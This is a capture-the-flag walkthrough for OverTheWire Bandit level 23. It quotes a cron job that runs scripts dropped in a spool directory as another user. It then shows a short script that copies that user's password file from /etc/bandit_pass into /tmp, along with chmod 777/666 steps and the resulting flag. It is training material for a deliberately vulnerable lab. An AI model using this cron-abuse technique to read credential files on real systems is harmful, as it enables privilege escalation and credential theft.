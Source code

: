 # Bandit 23

## Problem Information 
  > A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
  
  > NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
  
  > NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
  
## Solution
  > The cron job appears to execute all scripts found in /var/spool/$myname and remove them. The job is executed as bandit24, so the restriction in the script about it having to read from the bandit24 directory solves itself. Now, it's just a matter of making a password grabber to see what goodies lie in the forbidden lands of `/etc/bandit_pass`! A few things to note before just trying to `echo` the password to the terminal. The output is being routed to `/dev/null` so you will need to output instead to your own file in the `tmp/` directory. Next, make sure to change file permsissions so that the cron job will actually execute the script and again so that the output file can have the password written to it. Without that, you'll just be admiring your terminal ricing job for an hour before being booted off.
  
  Terminal flow of when first looking at the cron job and the script it runs.
  
    `cat /etc/cron.d/cronjob_bandit24 
    @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null` 
    
  `cat /usr/bin/cronjob_bandit24.sh 
    #!/bin/bash

    myname=$(whoami)

    cd /var/spool/$myname
    echo "Executing and deleting all scripts in /var/spool/$myname:"
      for i in * .*;
        do
          if [ "$i" != "." -a "$i" != ".." ];
            then
              echo "Handling $i"
              owner="$(stat --format "%U" ./$i)"
              if [ "${owner}" = "bandit23" ]; then
                timeout -s 9 60 ./$i
              fi
          rm -f ./$i
          fi
done`


Script for grabbing the password

`#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/cscripts/output.txt` 

Change permissions of your output file and script or you will be staring at a screen for quite a awhile.
`chmod 777 passwd_bandit24.sh` Make executable by the cron job.
`chmod 666 output.txt` Allow to be written to in order to receive the password
  
### Flag
`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`
